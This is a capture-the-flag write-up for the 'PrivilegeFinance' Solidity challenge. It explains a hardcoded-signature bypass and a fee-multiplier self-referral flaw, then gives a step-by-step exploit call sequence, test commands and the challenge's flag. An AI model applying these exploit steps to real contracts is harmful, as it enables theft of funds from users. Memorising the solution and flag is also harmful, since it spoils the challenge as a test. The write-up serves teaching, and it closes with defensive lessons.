 # Challenge 07: PrivilegeFinance - Signature Exploitation & Fee Manipulation

## 🎯 Challenge Goal

Raise the token balance of `msg.sender` to at least **10,000,000** tokens.

## 📋 Difficulty

**Expert** ⭐⭐⭐⭐⭐

## 🔍 Vulnerability Overview

The PrivilegeFinance contract contains multiple interconnected vulnerabilities:

### 1. **Signature Validation Weakness**
The `DynamicRew()` function uses ECDSA recovery with hardcoded r, s, v values. The message sender address is provided as a parameter and bruteforceable.

### 2. **Unchecked Parameter Setting**
The `ReferrerFees` and `transferRate` can be set to arbitrary high values (up to 2,000,000 and 50 respectively).

### 3. **Fee Distribution Vulnerability**
When `transfer()` is called with `recipient == admin`, the contract calculates:
```solidity
_fee = amount * transferRate / 100;
_transfer(address(this), referrers[msg.sender], _fee * ReferrerFees / transferRate);
```

This allows massive token transfers from the contract to referrers when fees are high.

## 💡 Exploit Strategy

### Step 1: Brute-force the Correct Address
The `msgsender` string is malformed (39 bytes instead of 20). Brute-forcing reveals:
```
Correct: 0x71fA690CcCDC285E3Cb6d5291EA935cfdfE4E053
```

### Step 2: Call DynamicRew with Crafted Parameters
```solidity
finance.DynamicRew(
    0x71fA690CcCDC285E3Cb6d5291EA935cfdfE4E053,  // bruteforced address
    1677729609,                                     // timestamp = time + 2
    20000000 / 1000 * 100,                          // ReferrerFees = 2,000,000
    50                                              // transferRate = 50
);
```

This satisfies:
- `_blocktimestamp < 1677729610` ✓
- `_transferRate <= 50` ✓
- `ecrecover()` validates against hardcoded r, s, v ✓

### Step 3: Get Initial Tokens
```solidity
finance.Airdrop();  // Gives 1000 tokens
```

### Step 4: Set Referrer
```solidity
finance.deposit(address(0), 1, msg.sender);
```

This sets `referrers[msg.sender] = msg.sender` (the external caller).

### Step 5: Trigger Fee Distribution
```solidity
finance.transfer(finance.admin(), 999);
```

When recipient is admin:
- `_fee = 999 * 50 / 100 = 499`
- To referrer: `499 * 2,000,000 / 50 = 19,960,000` ✓

This massive transfer goes to the referrer (msg.sender).

### Step 6: Set Flag
```solidity
finance.setflag();  // Sets flag = true if balance > 10,000,000
```

## 🛡️ Key Insights

1. **The caller matters**: `msg.sender` in `deposit()` determines who receives the referrer fees
2. **Parameter amplification**: `ReferrerFees` multiplier and fee calculation create exponential growth
3. **Referrer targeting**: The contract transfers to `referrers[msg.sender]`, allowing self-referral
4. **Supply abundance**: With 200B initial tokens in the contract, massive transfers are feasible

## 🧪 Testing

```bash
# Run all PrivilegeFinance tests
make test-privilegefinance

# Test exploit specifically
make test-privilegefinance-exploit

# Test complete challenge solution
make test-privilegefinance-solve

# Verbose testing
make test-privilegefinance-verbose
```

## 📝 Files

- `src/contracts/PrivilegeFinance.sol` - Challenge contract (unmodified)
- `src/contracts/PrivilegeFinanceExploit.sol` - Exploit implementation
- `test/PrivilegeFinance.t.sol` - Test suite

## 🔐 Security Implications

This challenge demonstrates:
- ✗ Hardcoded cryptographic values are exploitable
- ✗ Parameter validation must be strict and consistent
- ✗ Fee calculations can be weaponized when multipliers are user-controlled
- ✗ Referral systems require protection against self-referral exploitation

## 📚 References

- EVM Opcode Reference
- Solidity ABI Encoding
- ECDSA Signature Recovery
- Storage Slot Calculations

---

**Flag**: `0x4c7d8e17af758ca2054f6c1c6ea4535387352aeb`

